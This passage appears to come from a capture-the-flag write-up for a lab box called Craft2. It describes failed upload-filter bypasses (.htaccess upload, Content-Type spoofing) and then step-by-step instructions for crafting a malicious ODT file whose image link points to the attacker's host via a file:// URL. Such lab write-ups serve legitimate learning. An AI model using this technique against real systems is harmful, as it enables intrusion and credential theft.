 We have a couple options here. We can try and spoof this file type, or we can potentially craft a malicious ODT file if we can figure out how to do that. I actually try a couple of things here playing around in Burp Suite, like trying to upload an .htaccess file to execute ODT files as php (not allowed) and trying to spoof the Content-Type. 

![Craft24.png](/assets/images/Craft2/Craft24.png){: .center-aligned width="600px"}

Also not allowed.  Then I search my notes and realize that there is a similar path in the first Craft box that involves uploading a file with a malicious macro. So I try that again. 

![Craft25.png](/assets/images/Craft2/Craft25.png){: .center-aligned width="600px"}

They're on to us. I search around for a different way to exploit malicious ODT files, and I find [this](https://secureyourit.co.uk/wp/2018/05/01/creating-malicious-odt-files/). Essentially the steps are as follows:

1. Create an ODT Document
2. Insert -> Object -> OLE Object
3. Pick whatever jpg you want. I used a portait of Orville Redenbacher. 
4. Save the file (as .odt). 
5. Rename the file to .zip. 
6. Open the .zip file and access the `content.xml` file with a text editor. 
7. Toward the bottom, there will be a link to the picture like so: ![Craft26.png](/assets/images/Craft2/Craft26.png){: .center-aligned width="600px"} Change it to `xlink:href="file://$kaliIP/whatever.jpg`. 
8. Save the file (it will be a zip still).
9. Change the file type back to .odt. 
10. Upload the file. 
